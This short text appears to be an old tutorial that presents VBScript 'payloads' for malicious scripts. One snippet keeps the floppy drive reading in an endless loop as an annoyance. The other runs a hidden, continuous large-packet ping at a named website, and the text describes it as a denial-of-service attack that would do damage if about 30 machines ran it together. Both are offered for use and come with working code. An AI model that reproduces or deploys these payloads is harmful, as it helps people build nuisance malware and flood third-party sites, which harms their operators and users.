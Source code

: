 --------Loop floppy disk read--------

Description: This payloads has to be one of the most annoying
non-damaging payloads that I can think of. It simply makes the
floppy disk drive read at an infinate loop.

Here is the code:
-------------------------------------

On Error Resume Next
Set fso = CreateObject("Scripting.FileSystemObject")
Set DriveA = fso.GetDrive("A:")
Do
If DriveA.IsReady Then DiskReady = True
Loop

-------------------------------------



--------DoS (Denial of Service) attack--------

Description: This code basically Pingfloods a specific webpage,
Link, FTP or whatever. However, just one computer doing a Pingflood
will not cause much damage, but if at least 30 computers were doing it,
it would.

Here is the code:
-------------------------------------

On Error Resume Next
Set wsc = CreateObject("WScript.Shell")
wsc.Run "Ping.exe -t -l 916 www.azoogle.com", 0, False

-------------------------------------

